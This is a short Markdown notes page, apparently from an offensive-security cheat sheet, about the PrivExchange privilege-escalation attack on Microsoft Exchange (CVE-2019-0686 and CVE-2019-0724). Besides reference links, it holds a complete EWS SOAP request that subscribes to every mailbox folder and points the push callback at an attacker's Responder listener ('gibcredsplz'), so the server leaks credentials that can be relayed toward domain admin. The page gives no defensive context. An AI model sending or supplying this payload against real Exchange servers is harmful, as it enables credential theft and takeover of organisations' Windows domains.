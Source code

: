 ```yaml
---
title : "CVE-2019-0686"
# pre : ' '
description : "Abusing Exchange: One API call away from Domain Admin. (CVE-2019-0686 & CVE-2019-0724)"
date : 2021-02-03T13:28:29+01:00
# hidden : true
# draft : true
weight : 130
# tags : ['']
---
```


---

## PrivExchange - Abusing Exchange: One API call away from Domain Admin (CVE-2019-0686 & CVE-2019-0724)

[Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
[Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)

## Examples

### SOAP request creating subscription to mailbox

```plain
POST /ews HTTP/1.1
Host: exchange.example.com
Accept: */*
Accept-Language: nl-nl
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Content-Length: 934
Connection: close
Referer: https://exchange.example.com/ews
User-Agent: iPhone/11.1

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages">
    <soap:Header>
        <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
        <m:Subscribe>
            <m:PushSubscriptionRequest SubscribeToAllFolders="true">
                <t:EventTypes>
                    <t:EventType>NewMailEvent</t:EventType>
                    <t:EventType>ModifiedEvent</t:EventType>
                    <t:EventType>MovedEvent</t:EventType>
                </t:EventTypes>
                <t:StatusFrequency>1</t:StatusFrequency>
                <t:URL>http://<responder-IP-adres/gibcredsplz_2013_4/</t:URL>
            </m:PushSubscriptionRequest>
        </m:Subscribe>
    </soap:Body>
</soap:Envelope>
```

## URL List

- [Github.com - DirkjanM - PrivExchange](https://github.com/dirkjanm/PrivExchange)
- [Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [Chryzsh.github.io - Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)
